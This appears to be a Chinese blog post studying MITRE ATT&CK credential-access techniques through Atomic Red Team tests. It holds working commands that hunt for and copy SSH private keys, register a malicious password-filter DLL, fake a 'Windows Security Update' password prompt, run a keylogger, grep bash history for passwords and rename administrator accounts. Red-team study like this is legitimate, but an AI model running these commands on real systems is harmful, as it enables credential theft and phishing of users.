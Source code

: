 ```yaml
---
layout: post
title: 跟着ATT&CK学安全之credential-access
excerpt: "跟着ATT&CK学安全之credential-access"
categories: [ATT&CK]
comments: true
---
```

#### T1145 - Private Keys
私钥和证书可以进行权限验证,加解密进行数字签名.攻击者可用这些进行权限维持或者解密文件.通常密钥和证书的后缀是`.key, .pgp, .gpg, .ppk., .p12, .pem, .pfx, .cer, .p7b, .asc. `

私钥一般需要密码和口令来操作,所以红队可以使用工具进行键盘记录或者爆破密码
###### 测试1 Private Keys
在windows中查找`.key, .pgp, .gpg, .ppk., .p12, .pem, pfx, .cer, .p7b, .asc`后缀的文件名
```
echo "ATOMICREDTEAM" > %windir%\cert.key
dir c:\ /b /s .key | findstr /e .key
```
win10成功复现
###### 测试2 Discover Private SSH Keys
在linux中查找ssh私钥
```
find / -name id_rsa >> #{output_file}
find / -name id_dsa >> #{output_file}
```
成功复现
###### 测试3 Copy Private SSH Keys with CP
```
mkdir #{output_folder}
find / -name id_rsa -exec cp --parents {} #{output_folder} \;
find / -name id_dsa -exec cp --parents {} #{output_folder} \;
```
成功复现
###### 测试4 Copy Private SSH Keys with rsync
```
mkdir #{output_folder}
find / -name id_rsa -exec rsync -R {} #{output_folder} \;
find / -name id_dsa -exec rsync -R {} #{output_folder} \;
```
成功复现
### T1174 - Password Filter DLL
Windows password filters对于本地和域账户来说都是一种密码校验的机制,Filters使用dll作为接口,来进行密码规则的校验.Filter Dll在本地电脑对本地账户或者域控管理者进行校验.

在使用Security Accounts Manager注册新的密码之前, Local Security Authority向registered filter请求验证,当验证通过才能进行密码修改

红队可以注册一个有害的password filters来危害本地电脑或者真个域控
###### 测试1 Install and Register Password Filter DLL
使用powershell来安装注册password filter DLL,同时需要administrative权限和重启
```
$passwordFilterName = (Copy-Item "#{input_dll}" -Destination "C:\Windows\System32" -PassThru).basename
$lsaKey = Get-Item "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\"
$notificationPackagesValues = $lsaKey.GetValue("Notification Packages")
$notificationPackagesValues += $passwordFilterName
Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\" "Notification Packages" $notificationPackagesValues
Restart-Computer -Confirm
```
**项目中缺少文件,没有复现**
### T1040 - Network Sniffing
这个没什么说的,就是抓流量
###### 测试1 Packet Capture Linux
```
tcpdump -c 5 -nnni #{interface}
tshark -c 5 -i #{interface}
```
成功复现
###### 测试2 Packet Capture Windows Command Prompt
```
tcpdump -c 5 -nnni #{interface}
tshark -c 5 -i #{interface}
```
成功复现
### T1141 - Input Prompt
当程序被运行后需要额外的权限的时候,系统会向用户索要额外的权限凭证.红队可模仿这个方法,向用户索要额外的权限凭证.并记录下来
###### 测试1 PowerShell - Prompt User for Password
在powershell中运行
```
# Creates GUI to prompt for password. Expect long pause before prompt is available.    
$cred = $host.UI.PromptForCredential('Windows Security Update', '',[Environment]::UserName, [Environment]::UserDomainName)
# Using write-warning to allow message to show on console as echo and other similar commands are not visable from the Invoke-AtomicTest framework.
write-warning $cred.GetNetworkCredential().Password
```
ps:效果相当好啊!!!

win10成功复现
### T1056 - Input Capture
Keylogging 是最常用的input caputure手段
###### 测试1 Input Capture
```
set-ExecutionPolicy RemoteSigned
.\T1056\src\Get-Keystrokes.ps1 -LogPath #{filepath}
```
没有成功,回家再试一下
### T1139 - Bash History
红队可以从`~/.bash_history`找一些敏感信息
###### 测试1 Search Through Bash History
```
cat #{bash_history_filename} | grep #{bash_history_grep_args}
例如
cat ~/.bash_history | grep -e '-p ' -e 'pass' -e 'ssh'
```
成功复现
### T1098 - Account Manipulation
帐户操作可以帮助对手维护对环境中的凭据和特定权限级别的访问。修改包括修改凭证,修改权限,添加组,修改账户设置或者修改验证方式.为了修改账户,红队必须首先获得这个操作系统的权限.

对于Exchange Email Account Takeover:允许在本地 Exchange 和基于云的服务中可用,其中Exchange Server 是微软公司的一套电子邮件服务组件，是个消息与协作系统。 简单而言，Exchange server可以被用来构架应用于企业、学校的邮件系统。

对于Azure AD:红队可以设置第二个密码来persistence

对于AWS:AWS通过账户名新人用户.
###### 测试1 Admin Account Manipulate
修改账户名称
```
$x = Get-Random -Minimum 2 -Maximum 9999
$y = Get-Random -Minimum 2 -Maximum 9999
$z = Get-Random -Minimum 2 -Maximum 9999
$w = Get-Random -Minimum 2 -Maximum 9999
Write-Host HaHaHa_$x$y$z$w

$hostname = (Get-CIMInstance CIM_ComputerSystem).Name

$fmm = Get-CimInstance -ClassName win32_group -Filter "name = 'Administrators'" | Get-CimAssociatedInstance -Association win32_groupuser | Select Name

foreach($member in $fmm) {
    if($member -like "*Administrator*") {
        Rename-LocalUser -Name $member.Name -NewName "HaHaHa_$x$y$z$w"
        Write-Host "Successfully Renamed Administrator Account on" $hostname
        }
    }
```
没有复现
### T1110 - Brute Force
没什么说的,就是爆破